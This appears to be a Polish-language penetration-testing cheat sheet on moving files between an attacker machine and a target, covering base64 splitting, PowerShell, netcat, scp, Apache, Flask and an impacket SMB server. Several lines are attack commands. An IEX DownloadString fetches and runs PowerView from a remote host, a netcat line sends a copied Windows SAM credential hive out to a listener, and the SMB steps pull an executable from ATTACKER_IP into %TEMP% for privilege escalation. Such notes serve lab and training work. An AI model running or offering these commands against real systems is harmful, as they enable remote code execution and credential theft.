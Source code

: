 # Content
1. [Podzial na fragmenty](#Podzial-na-fragmenty)
2. [Powershell)(#Powershell)
3. [Przeslanie nc](#Przeslanie-nc)
4. [Przeslanie przez ssh scp](#Przeslanie-przez-ssh-scp)
5. [Apache](#Apache)
6. [Upload flask](#Upload-flask)
7. [Using SMB server](#SMB-server)

# Podzial na fragmenty
### Mozna przed podzieleniem zakodowac do base64
```console
base64 -w file.ext > file_to_split
```
### Dobry sposob
Podzielenie na ilosc partii
```console
split -n 20 file_to_split
```
Zlaczenie podzielonych kawalkow
```console
cat x* > scale_file
```
### Pierwotna wersja
![](PodzielenieNaMniejszeFragmenty.png)


# Powershell
### Dekodowanie base64 do binarki pliku powershell
```powershell
$contentString = Get-Content $filePath -Encoding UTF8
$binary = [Convert]::FromBase64String($contentString)
Set-Content -Path $newFileName -Value $binary -Encoding Byte
```
### Komendy pobierania pliku
```powershell
IEX (New-Object System.Net.Webclient).DownloadString('http://ip/powerview.ps1')
```
```powershell
iwr -uri http://ip/powerview.ps1 -OutFile pv.ps1
```



# Przeslanie nc
### Nasluch
```console
nc -nlvp 9999 > dane
```
### Wyslanie
```console
nc -n <ip> 9999 < file
```
### Wyslanie pliku z windowsa
```console
Get-Content SAM.base | .\nc.exe 10.10.116.147 9001
```

# Przeslanie przez ssh scp
### Przeslanie
```console
scp file.ext kali@192.168.45.193:/tmp
```
### Pobranie pliku przez ssh
```console
scp kali@192.168.45.250:/home/kali/Desktop/ticket.doc ticket.doc
```

# Apache
Kopiujemy plik do /var/www/html
```console
systemctl start apache2
```
Pobieramy plik na innej maszynie
```console
wget http://naszeIP/zasob
```

# Upload flask
```console
git clone https://github.com/romeokienzler/flask-file-upload.git
```
```console
mv upload.py app.py
```
```console
flask run
```
Connect i browser **127.0.0.1:5000**

# SMB server
    Uruchamiamy server na kalim:
    sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
    
    Na windowsie 
    1) Podlaczamy zasow:
       1- net use \\ATTACKER_IP\share /USER:user s3cureP@ssword 
    2) Kopiujemy pliki
       1- copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
    3) Odlaczamy zasob
       1- net use \\ATTACKER_IP\share /del
    
    Tutaj takie cos bylo robione(Uprawnienia windows)

